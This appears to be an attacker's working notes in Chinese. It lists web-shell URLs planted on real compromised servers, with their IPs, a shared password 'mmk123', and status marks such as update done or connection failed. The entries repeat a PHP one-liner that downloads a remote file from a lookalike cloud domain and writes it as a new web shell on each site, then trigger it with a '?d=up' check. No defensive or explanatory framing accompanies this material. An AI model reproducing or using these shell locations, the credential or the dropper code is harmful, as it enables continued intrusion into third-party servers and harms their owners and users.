 http://124.222.129.233/core/extend/code/simple.php |mmk123 
代码更新：0608 ✅
http://124.222.129.233/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://124.222.129.233/config/httpd.php?d=up

http://47.106.117.124/template/template_init.php |mmk123 | 连接不上

http://www.lgms56.cn/skin/images/m1.php |mmk123 |  114.55.130.128
代码更新：0608 ✅
http://www.lgms56.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.lgms56.cn/config/httpd.php?d=up

http://121.36.109.42/template/template_init.php |mmk123 
代码更新：0608 ✅
http://121.36.109.42/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.36.109.42/config/httpd.php?d=up

http://47.106.117.124/template/template_init.php |mmk123 | 连接不上

http://114.55.130.128:9090/template/template_init.php |mmk123 
代码更新：0608 ✅
http://114.55.130.128:9090/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.130.128:9090/config/httpd.php?d=up

http://yqyb.fun/template/template_init.php |mmk123 |tq | 154.212.146.242 | 连接不上
http://cablewiresfactory.com/template/template_init.php |mmk123 |  216.224.127.219
http://nn.gxguilong88.com//nnrx/templates/wap/images/js/mr1.php |mmk123 |rsa   提取 | 103.66.219.250
http://nn.gxguilong88.com/index_bk.php |mmk123 |rsa | 103.66.219.250
http://www.juheyuanjing.com/template/template_init.php |mmk123 |RSA 编码器--提取 | 129.227.60.74

http://cs.jsmbr.top/template/template_init.php |mmk123 |  43.129.26.37
代码更新：0608 ✅
http://cs.jsmbr.top/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://cs.jsmbr.top/config/httpd.php?d=up

http://43.132.185.27/template/template_init.php |mmk123 
代码更新：0608 ✅
http://43.132.185.27/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://43.132.185.27/config/httpd.php?d=up
